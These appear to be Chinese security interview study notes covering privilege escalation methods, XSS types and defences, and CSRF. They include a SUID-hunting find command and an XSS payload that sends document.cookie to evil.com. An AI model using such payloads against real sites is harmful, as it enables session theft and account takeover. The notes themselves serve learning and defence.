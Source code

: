 类型

纵向提权：低权限角色获得高权限角色的权限 横向提权：获取同级别角色的权


方法

系统内核溢出漏洞提权
数据库提权
错误的系统配置提权
组策略首选项提权
WEB 中间件漏洞提权
DLL 劫持提权
滥用高危权限令牌提权
第三方软件 / 服务提权等


### Linux 提权类型与方法


Linux 内核漏洞提权
SUID 提权
```bash
find / -perm -u=s -type f 2>/dev/null
```
环境变量劫持高权限程序
sudoer（用户组）配置文件错误提权
pkexec 本地权限提升漏洞 (CVE-2021-4034)


### xss类型

反射型：攻击者构造一个包含恶意脚本的URL，诱使用户点击。服务器后端将恶意脚本“反射”回用户的浏览器并执行

存储型：恶意脚本被存储在服务器上（如数据库、文件系统），当用户访问时，脚本从服务器加载并执行

DOM型：攻击者通过修改页面的DOM结构来注入恶意脚本，脚本在用户浏览器中执行，通常不涉及服务器端，而是通过JavaScript直接操作页面元素

### 反射型和Dom型的区别

反射型依赖服务器后端，Dom型完全在客户端执行。反射型通常通过URL参数传递恶意脚本，而DOM型通过JavaScript直接修改页面结构。

### xss怎么窃取cookie

```javascript
<img src="http://evil.com/log.gif?c='+document.cookie">
```

### xss怎么防御

HttpOnly Cookie：浏览器禁止 JS 访问cookie

输入过滤、编码（HTML实体转义）

### CSRF原理

CSRF（Cross-Site Request Forgery，跨站请求伪造）的原理是诱导用户在已登录状态下，向受信任站点发送非本意的请求，从而执行攻击者设定的操作，例如访问特定的api实现删除用户账户、修改用户密码、转账、下单等等。
